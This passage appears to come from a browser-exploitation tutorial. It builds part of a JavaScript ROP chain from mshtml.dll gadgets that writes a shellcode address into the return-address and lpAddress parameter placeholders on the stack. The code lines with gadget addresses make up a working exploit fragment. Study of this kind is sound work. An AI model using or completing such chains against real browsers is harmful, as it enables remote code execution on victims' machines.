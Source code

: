 Execution hits EAX first, and the negative distance to our shellcode is loaded into EAX.

<img src="{{ site.url }}{{ site.baseurl }}/images/browser50.png" alt="">

After the return to the stack gadget is loaded into EDI, to prepare for the COP gadget, the distance to our shellcode is loaded into EBX. Then, the parameter placeholder address is loaded into EAX.

<img src="{{ site.url }}{{ site.baseurl }}/images/browser51.png" alt="">

Since the address of the return address placeholder is in EAX, we can simply add the value of EBX to it, which is the distance from the return address placeholder, to EAX, which will result in the stack address that points to the beginning of our shellcode into EAX. Then, we can leverage the previously used arbitrary write gadget to overwrite what ECX currently points to, which is the stack address pointing to the return address parameter placeholder.

```js
rop += "\u5a6c\u74ce";                     // add eax, ebx ; ret (74ce5a6c) (mshtml.dll) Place the address of the shellcode into EAX
rop += "\u8d86\u750c";                     // mov dword [ecx], eax ; ret (750c8d86) (mshtml.dll) Arbitrary write to overwrite stack address with parameter placeholder for the fake return address, with the address of the shellcode
````

We can see that the address of our shellcode is in EAX now.

<img src="{{ site.url }}{{ site.baseurl }}/images/browser52.png" alt="">

Leveraging the arbitrary write gadget, we successfully overwrite the return address parameter placeholder on the stack with the actual argument, which is our shellcode!

<img src="{{ site.url }}{{ site.baseurl }}/images/browser53.png" alt="">

Perfect! The next parameter is also easy, as the parameter placeholder is located 4 bytes after the return address (`lpAddress`). Since we already have a great arbitrary write gadget, we can just increase the target location 4 bytes, so that the parameter placeholder for `lpAddress` is placed into ECX. Then, since the address of our shellcode is already in EAX, we can just reuse this!

```js
rop += "\uc4d4\u74e4";                     // inc ecx ; ret (74e4c4d4) (mshtml.dll) Increment ECX to get the stack address containing the lpAddress parameter placeholder
rop += "\uc4d4\u74e4";                     // inc ecx ; ret (74e4c4d4) (mshtml.dll) Increment ECX to get the stack address containing the lpAddress parameter placeholder
rop += "\uc4d4\u74e4";                     // inc ecx ; ret (74e4c4d4) (mshtml.dll) Increment ECX to get the stack address containing the lpAddress parameter placeholder
rop += "\uc4d4\u74e4";                     // inc ecx ; ret (74e4c4d4) (mshtml.dll) Increment ECX to get the stack address containing the lpAddress parameter placeholder
rop += "\u8d86\u750c";                     // mov dword [ecx], eax ; ret (750c8d86) (mshtml.dll) Arbitrary write to overwrite stack address with parameter placeholder for lpAddress, with the address of the shellcode
````

As we can see, we have now taken care of the `lpAddress` parameter. 

<img src="{{ site.url }}{{ site.baseurl }}/images/browser54.png" alt="">
